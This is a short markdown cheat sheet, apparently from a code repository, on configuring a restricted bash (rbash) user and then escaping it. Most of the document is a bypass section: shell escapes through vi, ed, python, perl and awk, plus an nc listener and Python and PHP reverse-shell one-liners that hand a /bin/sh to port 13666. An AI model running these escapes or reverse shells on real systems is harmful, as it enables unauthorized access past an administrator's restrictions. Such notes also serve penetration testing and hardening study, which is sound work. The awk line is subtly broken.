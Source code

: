 # rbash

restired bash

## setup

### enabling for a user

    cd /bin
    ln -s bash rbash

    useradd -m ruser
    usermod --shell /bin/rbash ruser

    grep -rni ruser /etc/passwd

### start directly

    bash -r

    cd /etc/
    -rbash: cd: restricted

## bypass rbash

### editors

#### vi

    :set shell=/bin/bash
    :shell
    cd /etc

#### ed

    ed
    !'/bin/sh'
    cd /etc
    exit
    q

### one liner

#### python

    python -c "import os; os.system('/bin/sh')"

#### perl

    perl -e "system('/bin/sh')"

#### awk

    awk 'begin {system("/bin/sh")}'
    cd /etc; pwd

### reverse shell

    # listen
    nc -lvp 13666

#### python

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1", 13666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### php

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'
